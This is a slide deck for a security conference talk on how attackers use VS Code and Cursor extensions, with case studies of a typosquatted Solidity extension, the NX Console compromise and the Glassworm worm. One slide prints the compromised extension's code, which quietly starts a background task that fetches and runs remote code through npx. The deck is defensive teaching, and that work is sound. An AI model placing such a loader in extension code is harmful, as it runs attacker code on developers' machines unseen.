---
# try also 'default' to start simple
theme: default

# random image from a curated Unsplash collection by Anthony
# like them? see https://unsplash.com/collections/94734566/slidev
#background: ./imgs/background.png
# some information about your slides (markdown enabled)
title: From Code to Compromise
info: |
  ## Security Fest 2026 slides
  From Code to Compromise

# apply UnoCSS classes to the current slide
class: text-center
# https://sli.dev/features/drawing
drawings:
  persist: false
# slide transition: https://sli.dev/guide/animations.html#slide-transitions
transition: fade-out
# enable Comark Syntax: https://comark.dev/syntax/markdown
comark: true
# duration of the presentation
duration: 45min

fonts:
  sans: 'Fira Mono'
  serif: 'Fira Mono'
  mono: 'Fira Mono'
---

# From Code to Compromise: Turning IDEs into attack vectors
#### _DB (@whokilleddb)_

_Black Hills Information Security_


<!--
You guys are not supposed to see this - if you are, then I have seriously messed up the presentation part
-->

---
transition: fade-out
layout: two-cols
class: text-left
---

# @whoami

**DB (@whokilleddb)**

**Work Experience**

- Maldev @ BHIS
- Consultant @ Certus Cyber
- Researcher @ Payatu

**Socials**

<div class="flex gap-3 mt-2">
  <a href="https://x.com/whokilleddb"></a>
  <a href="https://www.linkedin.com/in/whokilleddb/"></a>
  <a href="https://github.com/whokilleddb/"></a>
</div>

<br />

<div class="flex items-center gap-8">Cat Dad </div>

::right::

**Off work DB**

<div class="grid grid-cols-2 gap-2 mt-2 mb-4">
  
  
  
  
  
  
</div>


<!--
You still should not be able to see this
-->

---
transition: fade-out
layout: center
---

# Spot The Difference

**One of the following extensions is malicious and would establish a reverse shell on your machine, and the other one is downloaded from the respective Market Place**

---
transition: fade-out
class: text-left
title: Spot the difference #1
---

### Spot the difference #1

**Windsurf**

<div class="flex flex-col gap-2 mt-2">
  
  
</div>

---
transition: fade-out
class: text-left
title: Spot the difference #2
---

### Spot the difference #2

**VSCode**

<div class="flex flex-col gap-2 mt-2">
  
  
</div>

---
layout: image-right
image: https://www.freecodecamp.org/news/content/images/size/w2000/2021/08/vscode.png
---

# VSCode

_"World's most popular IDE"_

<div class="text-sm">

- Built using **ELECTRON**

```json [package.json]
{
  "electron": "39.8.8",
}
```
- Has a dedicated market place
- Supports **EXTENSIONS** from multiple sources

- It separates different functionality into different processes 

```js [abstractExtensionService.ts] 
private _startExtensionHostsIfNecessary(isInitialStart: boolean, initialActivationEvents: string[])
```

</div>

<!-- Electron comes with its own challenges - like sandboxes, the APIs it ha access to, js itself - and more -->

---
layout: image-right
image: https://www.freecodecamp.org/news/content/images/size/w2000/2021/08/vscode.png
---

# Why target VSCode?

<div class="text-base">

- Developers often have sensitive secrets: API keys, saved logins, private keys, etc - making them a prime target.
- Cross platform - can make payloads for windows, mac and linux.
- Payloads are run by Code.exe (on Windows) - a Microsoft signed binary.
- <span class="text-red-500">*</span>Comparatively lesser known attack vector and EDR blindspot 
 
_<span class="text-red-500">*</span>I wrote this line two years ago, not quite sure of it now_
</div>

---
transition: fade-out
layout: image-right
image: https://exafunction.github.io/public/brand/windsurf-white-symbol.png
title: Rise of AI powered IDEs
---

# Rise of AI powered IDEs

<br/>

- 2024-2025 saw the rise of AI powered IDEs
- We Cursor, Windsurf and a bunch of IDEs
- \**Looks inside\** - Based out of VSCode
- So, they are vulnerable to the same attacks

---
layout: center
transition: fade-out
---


---
transition: fade-out
layout: image-right
image: https://avatars.githubusercontent.com/u/61870837?v=4
---

# OpenVSX 

An Eclipse open-source project and alternative to the Visual Studio Marketplace

Due to legal nuances, alternative code editors built on the open-source VS Code project are barred from accessing the official Microsoft Visual Studio Marketplace 

This led to OpenVSX becoming really popular as an alternate extension store. However, it is not as extensively monitored as the VSCode Marketplace. It is very easy to spoof extensions, hijack search rankings, fake reviews - all of which has led to multiple security incidents over the last year.

---
transition: fade-out
layout: center
class: text-center
---

# Understanding Extensions

---
transition: fade-out
---

# The extension file format: VSIX

<div class="text-sm" >

A `.vsix` file is a ZIP archive using the Open Packaging Conventions (OPC) format.

```{1|2|3-7}
[Content_Types].xml          ← OPC MIME type mappings
extension.vsixmanifest       ← VSCode metadata (XML)
extension/
├── package.json
├── out/
├── node_modules/
└── README.md
```

(Unzipped) VSIX Files are stored in `~/.vscode/extensions`. Each installed extension gets its own versioned subdirectory:

```{1|2|3-5}
~/.vscode/extensions/
├── extensions.json 
├── ms-python.python-2024.1.0/
├── esbenp.prettier-vscode-10.4.0/
└── attacker.malicious-ext-1.0.0/
```

The `extensions.json` file is interesting.  It is the extension profile manifest for the default user profile. VS Code uses it to track which extensions are installed — their identity, version, disk location, and metadata. 
</div>

---
transition: fade-out
layout: image-right
image: https://i.imgflip.com/askwvd.jpg
---

# Attacks in the Wild

- Solidity Extension Bonanza: _An extension which stole $500K_
- TeamPCP github breach: _Because life hates me_
- Glassworm campaigns: _They stole my idea_ 

---
transition: fade-out
layout: two-cols
---

# Solidity Extension Bonanza

First, we have a legit extension:

- Legitimate extension from a verified publisher
- Has been around for 10 years on VSCode Marketplace and 5 years on OpenVSX
- Provides Syntax Highlighting, compilation features, etc
- 10.1M downloads, 1.78M installs

<div class="text-xs">

_Attackers love it - a lot._ 


</div>

::right::






---
transition: fade-out
layout: center
---

# $500K FOR CODE HIGHLIGHTING

<div class="absolute bottom-4 right-4 text-xs opacity-60"><a href="https://www.kaspersky.com/about/press-releases/kaspersky-uncovers-500k-crypto-heist-through-malicious-packages-targeting-cursor-developers">Source: Kaspersky GReAT Blog</a></div>

---
transition: fade-out
layout: center
---

<br />

<br />
<div class="text-center"><em>Extension which stole $500K from a Russian Crypto Dev</em></div>

<div class="absolute bottom-4 right-4 text-xs opacity-60"><a href="https://www.kaspersky.com/about/press-releases/kaspersky-uncovers-500k-crypto-heist-through-malicious-packages-targeting-cursor-developers">Source: Kaspersky GReAT Blog</a></div>

---
transition: fade-out
layout: image-right
image: https://content.kaspersky-labs.com/fm/press-releases/85/85d34dbd312fa53e3f41c0a5fc72d585/processed/search-results-for-the-query-solidity-q93.png
---


# Solidity Extension Bonanza
<br/>

- Attackers manipulated SEO to make the fake extension appear before the legit one

- At a glance, you might notice some differences - but remember that a user sees this in the Cursor UI - which makes it difficult to distinguish between the two.

<div class="absolute bottom-4 left-4 text-xs opacity-60"><a href="https://www.kaspersky.com/about/press-releases/kaspersky-uncovers-500k-crypto-heist-through-malicious-packages-targeting-cursor-developers">Source: Kaspersky GReAT Blog</a></div>

---
transition: fade-out
layout: center
---


# Taking a look at the code


---
transition: fade-out
layout: center
---

<div class="relative inline-block">
  
  
</div>

<div class="absolute bottom-4 left-4 text-xs opacity-60">Source: <a href="https://www.threat.rip/file/404dd413f10ccfeea23bfb00b0e403532fa8651bfb456d84b6a16953355a800a/community">index.js</a></div>


---
transition: fade-out
layout: center
---

# Taking a closer look

<div class="relative inline-block">
  
  <div class="absolute border-3 border-red-500" style="top: 30%; left: 10.2%; width: 17%; height: 21%;" />
  <div class="absolute border-3 border-red-500" style="top: 30%; left: 80%; width: 21%; height: 23%;" />
  <div class="absolute border-3 border-red-500" style="top: 49%; left: 4.9%; width: 10%; height: 20%;" />
</div>

<div class="absolute bottom-4 left-4 text-xs opacity-60">Source: <a href="https://www.threat.rip/file/404dd413f10ccfeea23bfb00b0e403532fa8651bfb456d84b6a16953355a800a/community">index.js</a></div>

---
transition: fade-out
layout: center
---

🚨🚨🚨 HOL'UP WAIT A MINUTE 🚨🚨🚨



---
transition: fade-out
layout: image
image: https://media3.giphy.com/media/v1.Y2lkPTZjMDliOTUybnN3eGlxbnoxNm04Nm14MWI0aDBhcjB0Ym5pNHpwdzVkcDdkcXVjdiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/GV3aYiEP8qbao/giphy.gif
---

---
transition: fade-out
layout: two-cols
---

# Round 2: Oldest Typosquatting Trick

<br />

**Actual Extension:**

Author name: juanblanco ← small L

**Malicious Extension:**

Author name: juanbIanco ← capital I

<br />
<div class="text-xs">

_The font makes it especially difficult to differentiate between the two._

</div>

::right::


<div class="absolute bottom-4 left-4 text-xs opacity-60"><a href="https://www.kaspersky.com/about/press-releases/kaspersky-uncovers-500k-crypto-heist-through-malicious-packages-targeting-cursor-developers">Source: Kaspersky GReAT Blog</a></div>

---
transition: fade-out
layout: default
class: p-0
---

<div class="grid grid-cols-2 w-full h-full">
  
  
  
  
</div>

---
transition: fade-out
layout: two-cols
---

Extensions flagged by [SecureAnnex](https://secureannex.com/blog/sleepyduck-malware/) impersonating the legit Solidity extension:

<div class="text-xs">

|ID|Date|
|---|---|
|solidityai.solidity|2025-07-02|
|soliditysupport.solid|2025-07-02|
|juanbianco.solibidity|2025-07-08|
|ethereum.solidity-ethereum|2025-08-12|
|ethfoundry.solidityethereum|2025-08-12|
|juan-blanco.solidity|2025-08-13|
|nomicfdn.hardhat-solidity|2025-08-13|
|solidityai.solid|2025-08-15|
|chaindevtools.solidity-pro|2025-08-18|
|nomic-foundation.hardhat-solidity|2025-08-21|
|nomic-fdn.hardhat-solidity|2025-08-22|
|juan-blanco.vscode-solidity|2025-09-05|

</div>

::right::

<div class="text-xs mt-9">

|ID|Date|
|---|---|
|juanfblanco.solidity-ethereum-vsc|2025-09-05|
|kineticsquid.solidity-ethereum-vsc|2025-09-05|
|nomic-fdn.solidity-hardhat|2025-09-05|
|solidity-syntax.solidity-lang|2025-09-12|
|juanblonco.solidity|2025-09-14|
|soldevdesigne.pythonweb|2025-09-14|
|ethereum.solidity|2025-09-29|
|nethereum.solidity|2025-09-29|
|juanbianco.solidity-lang|2025-10-30|
|juanrblanco.solidity-lang|2025-10-30|
|juan-bianco.solidity-vlang|2025-10-31|

</div>


<!-- _Here's a drinking game idea:_

_Take a shot everytime you see a malicious extension trying to impersonate this one_ -->

---
transition: fade-out
layout: center
---

# The Github breach of the weeks gone by

Supply chain + VSCode extension 

---
transition: fade-out
layout: center
class: text-center
---

# How it happened

<div id="chain-container" class="flex flex-wrap items-center justify-center gap-1 mt-6 text-xs">
  <v-click><div class="chain-node bg-gray-700 text-white rounded px-3 py-2 max-w-36 text-center">Supply Chain attack to yoink the token of a NX Console contributor</div></v-click>
  <v-click><span class="chain-arrow text-white text-lg">→</span><div class="chain-node bg-gray-700 text-white rounded px-3 py-2 max-w-36 text-center">Attacker pushes orphan commit to nrwl/nx</div></v-click>
  <v-click><span class="chain-arrow text-white text-lg">→</span><div class="chain-node bg-gray-700 text-white rounded px-3 py-2 max-w-36 text-center">Attacker publishes v18.95.0 to VSCode Marketplace</div></v-click>
  <v-click><span class="chain-arrow text-white text-lg">→</span><div class="chain-node bg-gray-700 text-white rounded px-3 py-2 max-w-36 text-center">VSCode autoupdates to new version</div></v-click>
  <v-click><span class="chain-arrow text-white text-lg">→</span><div class="chain-node bg-gray-700 text-white rounded px-3 py-2 max-w-36 text-center">Github engineer has extension installed</div></v-click>
  <v-click><span class="hidden"></span></v-click>
  <v-click><div class="bad-stuff text-center">🔥 BAD STUFF HAPPENS 🔥</div></v-click>
</div>

<style>
@keyframes chaos {
  0%,100% { transform: rotate(-3deg) scale(1);    filter: drop-shadow(-2px -2px 0 #000) drop-shadow(2px 2px 0 #000) drop-shadow(0 0  8px rgba(255,40,0,.6)); }
  25%     { transform: rotate(3deg)  scale(1.08); filter: drop-shadow(-2px -2px 0 #000) drop-shadow(2px 2px 0 #000) drop-shadow(0 0 18px rgba(255,40,0,1)); }
  50%     { transform: rotate(-4deg) scale(1.12); filter: drop-shadow(-2px -2px 0 #000) drop-shadow(2px 2px 0 #000) drop-shadow(0 0 22px rgba(255,80,0,1)); }
  75%     { transform: rotate(4deg)  scale(1.08); filter: drop-shadow(-2px -2px 0 #000) drop-shadow(2px 2px 0 #000) drop-shadow(0 0 18px rgba(255,40,0,1)); }
}
@keyframes explode-particle {
  0%   { opacity: 1; transform: translate(-50%, -50%) scale(1); }
  100% { opacity: 0; transform: translate(calc(-50% + var(--dx)), calc(-50% + var(--dy))) scale(0); }
}
@keyframes node-shatter {
  0%   { transform: scale(1);    opacity: 1; }
  40%  { transform: scale(1.15); opacity: 0.9; }
  100% { transform: scale(0);    opacity: 0; }
}
@keyframes pop-in {
  0%   { transform: scale(0) rotate(-8deg); opacity: 0; filter: none; }
  60%  { transform: scale(1.3) rotate(3deg); opacity: 1; filter: drop-shadow(-2px -2px 0 #000) drop-shadow(2px 2px 0 #000) drop-shadow(0 0 12px rgba(255,40,0,.8)); }
  100% { transform: scale(1)   rotate(0deg); opacity: 1; filter: drop-shadow(-2px -2px 0 #000) drop-shadow(2px 2px 0 #000) drop-shadow(0 0  8px rgba(255,40,0,.6)); }
}
.bad-stuff {
  opacity: 0;
  display: inline-block;
  font-family: Impact, 'Arial Black', sans-serif;
  font-size: 2.8rem;
  font-weight: 900;
  font-style: italic;
  text-transform: uppercase;
  letter-spacing: 3px;
  white-space: nowrap;
  color: #ff2020;
  filter: drop-shadow(-2px -2px 0 #000) drop-shadow(2px 2px 0 #000);
}
.chain-node.shattering,
.chain-arrow.shattering {
  animation: node-shatter 0.35s ease-in forwards !important;
}
</style>

<script setup>
import { inject, watch, computed, onMounted, onUnmounted } from 'vue'

const _ctx = inject('$$slidev-clicks-context', null)
const _clicks = computed(() => (_ctx?.value)?.current ?? 0)
let _exploded = false

function spawnParticles(rect) {
  const cx = rect.left + rect.width / 2
  const cy = rect.top  + rect.height / 2
  for (let i = 0; i < 8; i++) {
    const angle = (i / 8) * Math.PI * 2 + (Math.random() - 0.5) * 0.6
    const speed = 55 + Math.random() * 130
    const dx    = Math.cos(angle) * speed
    const dy    = Math.sin(angle) * speed
    const size  = 40 + Math.random() * 40
    const dur   = 0.45 + Math.random() * 0.45
    const p = document.createElement('div')
    p.textContent = '💥'
    p.style.cssText = [
      `position:fixed`,
      `left:${cx}px`,`top:${cy}px`,
      `font-size:${size}px`,
      `line-height:1`,
      `pointer-events:none`,`z-index:9999`,
      `animation:explode-particle ${dur}s ease-out forwards`,
      `--dx:${dx}px`,`--dy:${dy}px`,
    ].join(';')
    document.body.appendChild(p)
    setTimeout(() => p.remove(), (dur + 0.15) * 2000)
  }
}

function triggerExplosion() {
  if (_exploded) return
  _exploded = true

  const bad = document.querySelector('.bad-stuff')
  const container = document.querySelector('#chain-container')
  if (container) container.style.minHeight = container.offsetHeight + 'px'

  const targets = document.querySelectorAll('.chain-node, .chain-arrow')

  targets.forEach((el, i) => {
    setTimeout(() => {
      spawnParticles(el.getBoundingClientRect())
      el.classList.add('shattering')
    }, i * 40)
  })

  const settleDur = targets.length * 40 + 450
  setTimeout(() => {
    if (!container || !bad) return

    Array.from(container.children).forEach(child => {
      if (child !== bad && !child.contains(bad)) child.style.display = 'none'
    })
    container.style.flexWrap = 'nowrap'
    container.style.flexDirection = 'column'
    container.style.alignItems = 'center'
    container.style.justifyContent = 'center'

    bad.style.opacity = '1'
    bad.style.animation = 'pop-in 0.5s cubic-bezier(0.175, 0.885, 0.32, 1.275) forwards'
    setTimeout(() => { bad.style.animation = 'chaos 0.4s infinite' }, 550)
  }, settleDur)
}

watch(_clicks, (n) => { if (n >= 7) triggerExplosion() })

onMounted(() => { _exploded = false })
onUnmounted(() => { _exploded = false })
</script>

---
transition: fade-out
layout: two-cols
---

<br/>
<br/>

- The code checks VS Code's globalState for the key `nxConsole.mcpExtensionInstalledSha`. 
<br/>

- If the stored value does not match the hardcoded SHA, it creates a background VS Code Task called `install-mcp-extension`
<br/>

- The task fetches the Git tree at that SHA from the `nrwl/nx` which delivers the second stage payload

::right::

```js {1-4,20-25|7-18|7}
var U0 = require("vscode"),
    G5t = "558b09d7ad0d1660e2a0fb8a06da81a6f42e06d2",
    xfn = "nxConsole.mcpExtensionInstalledSha",
    $xs = new Set([127, 9009]); 
async function Uxs(t, e) {
    try {
        let n = `npx -y github:nrwl/nx#${G5t}`,
            i = new U0.Task({
                type: "nx"
            }, U0.TaskScope.Workspace, "install-mcp-extension", "nx", new U0.ShellExecution(n, {
                cwd: e,
                env: {
                    ...process.env,
                    NX_CONSOLE: "true"
                }
            }));
  // More code to check stuff
  }
}

function Efn(t) {
    if (t.globalState.get(xfn) !== G5t) {
        let n = U0.workspace.workspaceFolders && U0.workspace.workspaceFolders[0].uri.fsPath;
        Uxs(t, n ?? void 0)
    }
    // Normal nx.init command registration stuff
}

```

<div class="absolute bottom-4 left-4 text-xs opacity-60"><a href="https://www.stepsecurity.io/blog/nx-console-vs-code-extension-compromised">Source: StepSecurity</a></div>

---
transition: fade-out
layout: center
---


<div class="absolute bottom-4 left-4 text-xs opacity-60"><a href="https://www.stepsecurity.io/blog/nx-console-vs-code-extension-compromised">Source: StepSecurity</a></div>

---
transition: fade-out
layout: two-cols
---

<div class="flex items-center justify-center h-full">

# TL;DR - Github became _open source_, for a price

</div>

::right::

<div class="flex items-center justify-center h-full">

</div>

---
transition: fade-out
layout: center
---
<!-- 
<div class="text-center">

# Addressing the elephant in the room: The Big Github Breach of the weeks gone by


</div> -->

# Glassworm: The self propagating worm

---
transition: fade-out
layout: image-right
image: https://preview.redd.it/i-nominate-john-cena-as-ember-island-toph-i-cant-see-you-v0-nb1hufxezzqa1.jpg?width=640&crop=smart&auto=webp&s=a37bcb58f5c0d6d3e7156ee8b14d16c47f06e4b4
class: flex flex-col justify-center
---

# Glassworm v1

You can't see me - Glassworm (probably)

---
transition: fade-out
layout: center
---


# Glassworm v1 source code




<div class="absolute bottom-4 left-4 text-xs opacity-60"><a href="https://www.koi.ai/blog/glassworm-first-self-propagating-worm-using-invisible-code-hits-openvsx-marketplace">Source: KOI</a></div>


---
transition: fade-out
layout: center
---


---
transition: fade-out
layout: center
---

<div class="relative inline-block">
  
  <h1 class="absolute bottom-35 right-49 text-5xl font-bold text-white-400 drop-shadow-lg">UNICODE CHARACTERS</h1>
</div>

---
transition: fade-out
layout: two-cols
---

# Unicode Magic

<div class="flex items-center justify-center h-4/5">


</div>

::right::

<div class="flex flex-col justify-center h-full pl-8 text-xs">

The malicious code is encoded using unprintable Unicode characters.
From KOI researchers:
_”Let me say that again: the malware is invisible. Not obfuscated. Not hidden in a minified file. Actually invisible to the human eye.”_

_Fun Fact: VSCode cant render some common emojis like 🚨_


</div>


---
transition: fade-out
layout: two-cols
---

# List of compromised extensions

<div class="flex flex-col h-2/5">



<span>Same story here as well: Malicious code was pushed in v1.8.3 - and VSCode autoupdated the extension leading to 35.8K+ compromised machines</span>

<div class="absolute bottom-4 left-4 text-xs opacity-60"><a href="https://www.koi.ai/blog/glassworm-first-self-propagating-worm-using-invisible-code-hits-openvsx-marketplace">Source: KOI</a></div>

</div>

::right::

<div class="flex flex-col justify-center h-full pl-8 text-xs">

#### OpenVSX Extensions (with malicious versions):

- codejoy.codejoy-vscode-extension@1.8.3
- codejoy.codejoy-vscode-extension@1.8.4
- l-igh-t.vscode-theme-seti-folder@1.2.3
- kleinesfilmroellchen.serenity-dsl-syntaxhighlight@0.3.2
- JScearcy.rust-doc-viewer@4.2.1
- SIRILMP.dark-theme-sm@3.11.4
- CodeInKlingon.git-worktree-menu@1.0.9
- CodeInKlingon.git-worktree-menu@1.0.91
- ginfuru.better-nunjucks@0.3.2
- ellacrity.recoil@0.7.4
- grrrck.positron-plus-1-e@0.0.71
- jeronimoekerdt.color-picker-universal@2.8.91
- srcery-colors.srcery-colors@0.3.9
- sissel.shopify-liquid@4.0.1
- TretinV3.forts-api-extention@0.3.1

#### Microsoft VSCode Extensions:
- cline-ai-main.cline-ai-agent@3.1.3

</div>

---
transition: fade-out
layout: center
---

# But Glassworm wasn't done yet

